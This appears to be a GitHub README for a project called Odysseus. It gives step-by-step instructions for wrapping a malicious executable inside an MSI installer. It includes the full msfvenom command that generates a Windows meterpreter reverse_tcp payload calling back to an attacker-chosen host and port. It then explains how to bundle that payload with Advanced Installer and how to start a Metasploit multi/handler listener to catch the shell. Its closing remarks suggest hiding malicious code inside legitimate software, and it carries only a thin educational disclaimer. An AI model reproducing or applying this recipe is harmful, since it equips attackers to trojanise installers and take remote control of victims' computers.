 ```
_____ ______ __   __ _____  _____  _____  _   _  _____ 
|  _  ||  _  \\ \ / //  ___|/  ___||  ___|| | | |/  ___|
| | | || | | | \ V / \ `--. \ `--. | |__  | | | |\ `--. 
| | | || | | |  \ /   `--. \ `--. \|  __| | | | | `--. \
\ \_/ /| |/ /   | |  /\__/ //\__/ /| |___ | |_| |/\__/ /
 \___/ |___/    \_/  \____/ \____/ \____/  \___/ \____/                                                        
```

# Odysseus

## Overview

The Odysseus project demonstrates the integration of `msfvenom` and `Advanced Installer` to create a software package with embedded payloads. This guide outlines the process of generating a malicious `.exe` with `msfvenom` and then packaging it into an installer using `Advanced Installer`.

**Important:** This project is intended for educational and ethical use only. Always ensure that you have explicit permission before using or demonstrating any tools or techniques that could potentially be harmful.

## Features

- Creation of a malicious `.exe` file using `msfvenom`.
- Packaging of the `.exe` file into an installer using `Advanced Installer`.
- Detailed instructions and screenshots for each step.

## Prerequisites

Before you start, ensure you have the following tools installed:

- [Metasploit Framework](https://metasploit.help.rapid7.com/docs/installing-the-metasploit-framework)
- [Advanced Installer](https://www.advancedinstaller.com/)
- [UPX](https://upx.github.io/) (optional for executable packing)

## Installation and Setup

### 1. Clone the Repository

Start by cloning the repository to your local machine:

```bash
git clone https://github.com/imnopro/Odysseus.git
cd Odysseus
```

### 2. Generate the Malicious .exe
Use msfvenom to create a malicious .exe payload. Replace LHOST and LPORT with your local IP address and port.

``` bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.9 LPORT=9002 -f exe -o payload.exe
```


### 3. Package the Payload with Advanced Installer

   -Open Advanced Installer:

   -Launch Advanced Installer and create a new project or open an existing one.

   -Add the Payload:

   -Navigate to the "Files and Folders" section. Add the payload.exe file to the desired location in the installer.

   -Configure Installation Settings:

   -Set the install location and other configuration settings as needed.

   -Build the Installer:

   -Click "Build" to generate the MSI installer.





   ## Running the Demonstration

### Start the Listener:

-Use Metasploit to listen for connections.

``` bash
msfconsole
use exploit multi/handler
set LHOST
set LPORT
set payload windows/x64/meterpreter/reverse_tcp
```

### Install the MSI:

Install the MSI package on a test machine to execute the payload, and then run the .exe to test functionality.


### Closing Remarks

##### As always, please use this responsibly. I am not responsible for what you do with this code, and please make sure to use on systems you have authority to audit and test. While this is a simple Reverse shell, you can also build in other exe files, and potentially use existing pieces of software to hide your malicious code. Happy Hacking!
